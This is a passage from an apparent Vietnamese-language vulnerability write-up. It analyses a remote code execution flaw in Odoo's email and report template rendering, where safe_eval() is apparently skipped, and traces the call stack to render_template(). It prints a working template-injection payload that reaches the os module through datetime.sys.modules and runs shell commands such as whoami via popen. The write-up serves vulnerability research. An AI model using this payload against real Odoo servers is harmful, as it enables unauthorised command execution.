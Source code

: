 Ngoài ra, một vấn đề cũng đáng được đề cập là việc nội dung `safe_eval()` đã rất cố gắng trong việc ngăn chặn những thông tin từ người dùng được thực thi nhưng dường như nó không hề được gọi trong trường hợp của một vài chức năng. Bên dưới đây mình sẽ debug một trong số chúng để chứng minh luận điểm này.

Vấn đề đặt ra bây giờ là ta cần tìm ra những entrypoint tận dụng điểm yếu này để mô phỏng lại lỗ hổng.

---

### 3. Debug Analysis

Mặc dù được phân tích đầu tiên, song phần nội dung Root Cause trên lại là kết thúc của cả quá trình khai thác lỗ hổng. Trong thực tế, việc thiết kế như vậy của ứng dụng Odoo khiến cho nhiều vị trí sử dụng logic trên sẽ trở nên vulnerable.

Trong bài viết này, mình sẽ chỉ phân tích luồng thực thi của chương trình khi xử lý nội dung từ người dùng với các chức năng preview / save as template report hoặc email. Ngoài chức năng này ra, có một chức năng khác cũng gặp phải vấn đề tương tự là các chức năng tự động hoá (automated actions/workflows), về bản chất cũng là templates.

Để hiểu rõ đường đi của dữ liệu khi ta bấm Send by Email / Save as new template / Preview. Mình sẽ tiến hành debug, sau nhiều lần false và quan sát call stack, mình rút ra được luồng thực thi chính xác của chương trình như sau:

```
mail.compose.message.onchange_template_id()
   └─► generate_email_for_composer()
        └─► mail.template.generate_email()
             └─► render_template() <= RCE here
```

Payload đã được sử dụng:

```

<!-- 1) Chứng minh có evaluate -->
<p>TEST1: ${ 'EVAL:' + str(1+1) }</p>

<!-- 2) In ra "hình dạng" của datetime -->
<p>TEST2: ${ 'DT_REPR:' + str(datetime) }</p>

<!-- 3) Truy cập trực tiếp sys từ datetime (không đụng builtins) -->
<p>TEST3: ${ 'SYS_VER:' + datetime.sys.version.split()[0] }</p>

<!-- 4) Lấy module os qua sys.modules (không import) -->
<p>TEST4: ${ datetime.sys.modules['os'].__name__ }</p>

<p>OS_FILE: ${ (datetime.sys.modules['os'].__file__ or 'BUILTIN') }</p>
<p>PLATFORM: ${ datetime.sys.platform }</p>

123123123
<p>TEST4: ${ datetime.sys.modules['os'].popen('whoami').read() }</p>
<p>TEST4: ${ datetime.sys.modules['os'].popen('dir').read() }</p>
```
